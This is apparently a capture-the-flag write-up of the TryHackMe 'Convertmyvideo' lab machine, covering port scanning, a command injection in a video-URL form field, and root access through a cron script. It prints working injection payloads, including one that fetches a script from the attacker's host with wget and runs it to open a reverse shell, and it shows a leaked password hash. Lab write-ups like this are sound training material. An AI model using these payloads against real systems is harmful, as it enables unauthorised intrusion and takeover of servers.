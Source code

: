 ```yaml
---
layout: post
title:  "TryHackMe - Convertmyvideo"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
categories: Tryhackme
---
```


It is a linux machine that allows us to exploit a vulnerability found in the OWASP Top 10 (2017).

---

## Enumeration
### Nmap
*Ports:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*More exhaustive scanning:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

After fuzzing I came across a directory which is admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)
![Pastedimage20210416201737](https://user-images.githubusercontent.com/76759292/127757710-64e265d5-b99f-4397-9f32-b29238611ffc.png)


## PoC Command Injection

After a while of testing I found a command injection in the part where the url is inserted

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)
![Pastedimage20210416210230](https://user-images.githubusercontent.com/76759292/127757723-4dc3ddf8-2de9-4564-bee5-97ab61d011b3.png)


We can also visualize the flag from here (For the spacing I use Input Field Separators which is an input field separator variable):  
  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)
![Pastedimage20210416211813](https://user-images.githubusercontent.com/76759292/127757727-fc4e3dd1-fd78-45e3-b4d8-106c00b23e09.png)

We can visualize the content that admin has:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)
![Pastedimage20210416211957](https://user-images.githubusercontent.com/76759292/127757731-3a285cca-4e6f-474d-89e3-6e62d08a27d2.png)

Something that is striking is the content that has .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)
![Pastedimage20210416212308](https://user-images.githubusercontent.com/76759292/127757745-e60616cb-5985-48c0-b63c-f9c6d51b228a.png)


```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

With this we will be able to crack ```jesie``` and later to enter in the panel that appears when we enter to /admin. This time we will go for another vector.

## Shell Initial

First we will do a simple reverse with bash and then we will set up a server with python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Then we run the reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)
![Pastedimage20210416213538](https://user-images.githubusercontent.com/76759292/127757751-7f9e8d86-b68b-47a8-8ddd-3a204c9e9554.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

The first utility to use is ```linpeas``` this shows us the same thing we got out with the command injection:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


An interesting script is clean.sh, the idea is basically to add a reverse and wait for it to be executed:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)
![Pastedimage20210521174646](https://user-images.githubusercontent.com/76759292/127757755-383cfbca-aa66-43e0-a23b-57a135cc6f93.png)


This image confirms my theory that this script is basically executed by root through a cron job:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)
![Pastedimage20210521174719](https://user-images.githubusercontent.com/76759292/127757762-889d4ecd-dce2-4c25-82d0-63334389a4ac.png)


```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

This does not go with the resolution of the machine but I find interesting the issue of local port forwarding that allows us to visualize services that can only be seen in the machine locally (This is not the case but assuming that we find ourselves later with this).

First we generate a pair of keys with ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)
![Pastedimage20210521180334](https://user-images.githubusercontent.com/76759292/127757767-6490e00f-bc47-4c89-a208-7a4badd90d52.png)


We add our key to the authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)
![Pastedimage20210521180445](https://user-images.githubusercontent.com/76759292/127757768-6ceedccb-bf53-4e71-bcb9-77b6513f795c.png)


We test that everything is correct:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)
![Pastedimage20210521180621](https://user-images.githubusercontent.com/76759292/127757769-49ef382b-cbd0-403f-b77b-e34d1beb161c.png)


With the following command we are telling it that we want port 80 of the victim machine to be mirrored on port 8084 of our machine:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)
![Pastedimage20210521181139](https://user-images.githubusercontent.com/76759292/127757771-a48a1471-51f3-4c4c-88bc-9d0e4e66cfbc.png)


This is how we could visualize it:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)
![Pastedimage20210521181155](https://user-images.githubusercontent.com/76759292/127757779-2cb3c5c9-5c6f-4230-95ee-3e66f5b4249d.png)


On this machine we were able to exploit a command injection and subsequently abuse a cron job.

<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="300" height="300" />
</p>
